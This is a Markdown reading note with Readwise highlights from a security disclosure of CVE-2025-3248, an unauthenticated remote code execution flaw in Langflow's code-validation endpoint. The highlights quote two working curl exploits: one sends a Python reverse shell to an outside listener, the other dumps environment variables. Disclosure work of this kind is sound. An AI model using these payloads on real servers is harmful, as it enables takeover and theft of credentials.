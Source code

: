 ```yaml
---
author: "Naveen Sunkavally"
aliases: "Unsafe at Any Speed: Abusing Python Exec for Unauth RCE in Langflow AI"
tags: RW_inbox, readwise/articles
url: https://www.horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/?__readwiseLocation=
date: 2025-04-24
summary: A serious security flaw, CVE-2025-3248, was found in Langflow, a tool for creating AI workflows. This vulnerability allows remote attackers to take complete control of Langflow servers without authentication. Users are advised to upgrade to version 1.3.0, which fixes the issue.
---
```

# Unsafe at Any Speed: Abusing Python Exec for Unauth RCE in Langflow AI

![rw-book-cover](https://p7i3u3x3.rocketcdn.me/wp-content/uploads/2023/09/1200x627-Generic-NodeZero-Banner_2306.jpg)

## Highlights


A Bad Code Smell
 Within a few minutes of looking at the source code, we identified something fishy – [an unauthenticated API endpoint](https://github.com/langflow-ai/langflow/blob/1.2.0/src/backend/base/langflow/api/v1/validate.py) /`api/v1/validate/code` running Python `exec` on untrusted user input. [](https://read.readwise.io/read/01jrwrbeyfa1xyvy8ve1xpms4m)



The code uses the `ast` module to parse user input and extracts any `ast.Import` and `ast.FunctionDef` nodes, i.e. any Python `import` statements and function definitions.
 Imports are validated using `importlib.import_module`. This can’t be directly exploited unless an attacker can first upload an arbitrary Python file onto the file system within Python’s module search path. We didn’t find a way to do this.
 Function definitions are validated using `compile` and `exec`. A function definition is not the same as a function though. Executing a function definition only makes the function available for execution within the current Python namespace; it doesn’t actually execute the function code. We tried polluting the current namespace by overwriting existing global and local function names but weren’t successful. [](https://read.readwise.io/read/01jrwrbyec45fe3n3r5bxfvnah)



What exactly is an `ast.FunctionDef`? In Python, function definitions also include the decorators attached to the function. [](https://read.readwise.io/read/01jrwrcm0zt7fr5b94nstcc418)



Decorators are functions that return functions that wrap other functions. In Python web apps, they’re commonly used to implement authentication/authorization controls, such as `@login_required`. [](https://read.readwise.io/read/01jrwrdpspw0k423byv293ktde)



But decorators don’t have to be functions or return functions. Decorators are actually modeled as *expressions* – arbitrary Python code statements. [](https://read.readwise.io/read/01jrwrgq0tp0vdgtkvmj4ga0ct)



Let’s say you have a file called `foomodule.py` with the following code:
 @__import__("os").system("echo Inside foo decorator")
 def foo():
 print("Inside foo function")
 And in the same directory another file `main.py` with just the following line: 
 `import foomodule` [](https://read.readwise.io/read/01jrwrh7c4t8xnc6nscsm6y8qx)



![](https://www.horizon3.ai/wp-content/uploads/2025/04/Screenshot-2025-04-04-at-5.47.13 PM-1024x254.png)
 The import of `foomodule` in `main.py` executes the function definition of `foo`, which executes the decorator [](https://read.readwise.io/read/01jrwrhp61bybqe8nqr8k8gv8b)



Abusing Decorators for Remote Code Execution
 Remote code execution is easy now – just stick the payload into a decorator. [](https://read.readwise.io/read/01jrwrjb3d1eh0s0ttvh3yzpdn)



curl -X POST -H 'Content-Type: application/json' http://10.0.220.200:8000/api/v1/validate/code -d '{"code": "@exec(\"import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\\"10.0.220.201\\\",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\\\"/bin/sh\\\")\")\ndef foo():\n pass"}' [](https://read.readwise.io/read/01jrwrjphrwt61jgkd8ceq5ckm)



Another Path to RCE: Python Default Arguments
 After the CVE was published, [another researcher published a POC](https://x.com/_r00tuser/status/1909858365234463122) that abused another feature of Python functions: default arguments. These are also modeled as expressions in Python and get executed when a function is defined. [](https://read.readwise.io/read/01jrwrmyxt1cwt7mj3ac7rak60)



curl -H 'Content-Type: application/json' http://10.0.220.200:8000/api/v1/validate/code -d '{"code":"def foo(cmd=exec(\"raise Exception(__import__(\\\"subprocess\\\").check_output(\\\"env\\\"))\")):\n pass"}' [](https://read.readwise.io/read/01jrwrndv3wy4e3j13bs7db00n)

